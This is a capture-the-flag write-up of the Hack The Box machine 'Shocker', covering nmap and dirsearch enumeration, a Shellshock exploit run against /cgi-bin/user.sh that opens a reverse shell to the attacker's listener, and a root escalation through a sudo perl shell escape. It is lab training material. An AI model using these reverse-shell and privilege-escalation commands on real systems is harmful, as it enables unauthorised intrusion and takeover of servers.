 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Shocker
- Description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
- Difficulty: Easy
## Initial Access

Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this info I can try to visit the page:

![assets/images/2024-01-19-shocker-writeup-image-1.png](assets/images/2024-01-19-shocker-writeup-image-1.png)

Nothing too crazy stands out, I can try to check for dirsearch while I enumerate this apache version:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e sh -f -u  http://10.10.10.56/cgi-bin/ 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 64 | Wordlist size: 661635

Output File: /home/kali/.dirsearch/reports/10.10.10.56/-cgi-bin-_24-01-19_09-25-34.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_09-25-34.log

Target: http://10.10.10.56/cgi-bin/

[09:25:35] Starting: 
[09:25:35] 200 -  118B  - /cgi-bin/user.sh
```

I can see that we have /cgi-bin/user.sh, this is screaming shellshock so I'll try to exploit it:

```bash
HTB python2 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.14.14 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56>
```

We got a shell!
## Privilege Escalation

Checking sudo permissions:
```bash
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo perl -e 'exec "/bin/sh";' 
# whoami
root
```

Very simple root!
## Beyond Root

Now since I can't update the machine, what I'll do is get rid of the vulnerable script user.sh

As far as root goes, I'll get rid of the sudo perl usage
